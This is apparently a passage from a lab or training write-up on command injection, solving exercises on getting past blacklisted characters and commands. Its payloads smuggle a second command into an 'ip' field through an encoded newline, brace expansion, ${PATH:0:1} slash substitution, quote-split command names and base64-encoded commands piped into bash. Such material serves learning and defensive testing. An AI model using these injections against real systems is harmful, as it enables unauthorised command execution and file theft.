 ### Bypassing Other Blacklisted Characters

6. Use what you learned in this section to find name of the user in the '/home' folder. What user did you find?

We can use the same bash brace expression as for prev question but adjust it for our question:
```
ip=127.0.0.1%0a{ls,-la,${PATH:0:1}home}
```
Here %0a is a new line encoded character which needs to make our command executable instead of ip 127.0.0.1
Next we have bash brace expansion {ls,-la,${PATH:0:1}home} where ${PATH:0:1} prints the / character so we got then ls -la /home  

### Bypassing Blacklisted Commands

7. Use what you learned in this section find the content of flag.txt in the home folder of the user you previously found.

```
ip=127.0.0.1%0a{c'a't,${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}
```
As in the question we are asked to look for flag in home directory of the user we are previously found, we can also use bash brace expansion here and add the username we found 1nj3c70r, where ${PATH:0:1} is used to bypass / symbol which is blacklisted

### Advanced Command Obfuscation

8.  Find the output of the following command using one of the techniques you learned in this section: find /usr/share/ | grep root | grep mysql | tail -n 1     

So we will use the encoded method for this task:
```
echo -n 'find /usr/share/ | grep root | grep mysql | tail -n 1' | base64
ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=
```

Then in order to run this command we use:
```
bash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

So finally we need to add %0a before bash so it will look like this
```
ip=127.0.0.1%0abash<<<$(base64%09-d<<<ZmluZCAvdXNyL3NoYXJlLyB8IGdyZXAgcm9vdCB8IGdyZXAgbXlzcWwgfCB0YWlsIC1uIDE=)
```

## Skills Assessment

9.  What is the content of '/flag.txt'?

So first we are provided with creds to login to form
user: guest
password: guest
![](https://i.imgur.com/Q8Ufvbs.png)
